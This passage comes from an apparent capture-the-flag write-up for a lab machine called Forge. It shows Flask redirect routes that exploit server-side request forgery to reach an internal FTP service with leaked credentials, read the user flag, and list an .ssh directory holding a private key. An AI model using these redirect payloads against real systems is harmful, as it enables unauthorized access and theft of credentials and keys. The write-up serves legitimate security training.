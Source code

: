         </ul>
    </body>
    

The FTP server has creds user / heightofsecurity123!. The `/upload` url that
supports FTP and works as a GET request.

It’s strange to me that the site now supports FTP, since I know it’s using
`requests`, which doesn’t. But I’ll trust the site, and dig into this in
Beyond Root.

### FTP

My first attempt to get to FTP was with another endpoint in Flask to direct to
it:

    
    
    @app.route("/2")
    def ftp_direct():
        return redirect('ftp://user:heightofsecurity123!@127.0.0.1')   
    

Unfortunately, the page returned an error:

![](https://0xdfimages.gitlab.io/img/image-20210819211509764-16294244772732.png)

Of course, the base domain `/upload` support FTP (I already knew that from
recon). But there is a `/upload` on `admin.forge.htb` as well. The
announcements page must be talking about that one. I’ll use a redirect to the
admin upload page to get it to fetch from FTP.

I’ll write a slightly more generic Flask route this time. This route will do
the indirect FTP, and it will allow me to pass a GET parameter, `f` to specify
the file to get if this works:

    
    
    @app.route("/3")
    def ftp_via_admin():
        f = request.args.get('f', default='')
        return redirect(f'http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/{f}')  
    

Submitting `http://10.10.14.6/3` returned a listing of the files in FTP:

    
    
    drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
    -rw-r-----    1 0        1000           33 May 31 12:23 user.txt 
    

`http://10.10.14.6/3?f=user.txt` returns the user flag.

Next I’ll try `http://10.10.14.6/3?f=.ssh/`:

    
    
    -rw-------    1 1000     1000          564 May 31 12:35 authorized_keys
    -rw-------    1 1000     1000         2590 May 20 08:30 id_rsa
    -rw-------    1 1000     1000          564 May 20 08:30 id_rsa.pub 
    